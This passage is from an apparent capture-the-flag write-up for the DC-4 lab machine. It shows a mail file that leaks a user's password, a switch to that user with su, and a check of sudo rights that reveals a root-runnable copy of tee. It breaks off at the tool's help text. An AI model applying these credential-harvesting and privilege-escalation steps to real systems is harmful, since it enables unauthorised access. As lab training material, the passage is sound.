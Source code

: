 ```bash
Content-Type: text/plain; charset="UTF-8"
Content-Transfer-Encoding: 8bit
Message-Id: <E1hCjIX-0000kO-Qt@dc-4>
From: Charles <charles@dc-4>
Date: Sat, 06 Apr 2019 21:15:45 +1000
Status: O

Hi Jim,

I'm heading off on holidays at the end of today, so the boss asked me to give you my password just in case anything goes wrong.

Password is:  ^xHhA&hvim0y

See ya,
Charles
```

>  Yeah. We now have `charles` password :-) (`^xHhA&hvim0y`)
{: .prompt-info }

Lets switch to user `charles`
```bash
jim@dc-4:/var/spool/mail$ su charles
Password: 
charles@dc-4:/var/spool/mail$ id
uid=1001(charles) gid=1001(charles) groups=1001(charles)
```

When checking `sudo` privileges we see that we are allowed to execute a command.
```bash
charles@dc-4:~$ sudo -l
Matching Defaults entries for charles on dc-4:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User charles may run the following commands on dc-4:
    (root) NOPASSWD: /usr/bin/teehee
```

Lets check what `/usr/bin/teehee` is.
```bash
charles@dc-4:~$ /usr/bin/teehee --help
Usage: /usr/bin/teehee [OPTION]... [FILE]...
Copy standard input to each FILE, and also to standard output.

  -a, --append              append to the given FILEs, do not overwrite
  -i, --ignore-interrupts   ignore interrupt signals
  -p                        diagnose errors writing to non pipes
      --output-error[=MODE]   set behavior on write error.  See MODE below
      --help     display this help and exit
      --version  output version information and exit

MODE determines behavior with write errors on the outputs:
  'warn'         diagnose errors writing to any output
  'warn-nopipe'  diagnose errors writing to any output not a pipe
  'exit'         exit on error writing to any output
  'exit-nopipe'  exit on error writing to any output not a pipe
The default MODE for the -p option is 'warn-nopipe'.
The default operation when --output-error is not specified, is to
exit immediately on error writing to a pipe, and diagnose errors
writing to non pipe outputs.

GNU coreutils online help: <http://www.gnu.org/software/coreutils/>
Full documentation at: <http://www.gnu.org/software/coreutils/tee>
or available locally via: info '(coreutils) tee invocation'
```